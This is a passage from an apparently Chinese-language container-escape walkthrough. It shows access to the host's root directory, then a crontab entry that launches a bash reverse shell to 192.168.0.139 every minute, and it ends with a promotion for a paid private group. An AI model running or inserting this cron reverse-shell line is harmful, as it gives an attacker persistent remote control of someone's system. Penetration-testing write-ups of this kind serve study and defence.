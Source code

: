 ![2f36ba1121b7e877ee41e10aa4239602.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfFj30epg20IdAvYcUAZ3iaWurn6TGichyVibEp0Xc6xWZDKSMvw6VjuJJg/640?wx_fmt=png&from=appmsg "")  
  
可以看到宿主机root目录上的图片，反弹shell也是修改crontab即可  
### 2.4、反弹shell  
  
通过修改Crontab定时任务来反弹shell  
```
crontab -e  
```  
```
* * * * * /bin/bash -i >& /dev/tcp/192.168.0.139/123 0>&1 
```  
  
![068556ab6d5160c90d925bee95ab2e9e.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf3cHwuib2HIK0x3yiazgxEag1Vw05SUEZS2pibvqqRrfDJdL2YVWaLufKw/640?wx_fmt=png&from=appmsg "")  
  
![4b34102dc69232f5b171d40c3c339b84.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf26DicH1YgStR12XgZYxSvod05BBdZH5ibh4lTkpdPiarCQ4klD0wFaoxA/640?wx_fmt=png&from=appmsg "")  
  
  
最后推荐一下小密圈，干货满满，物超所值，**内部圈子每增加100人，价格将上涨20元，越早进越优惠嗷~~**  
  
****  
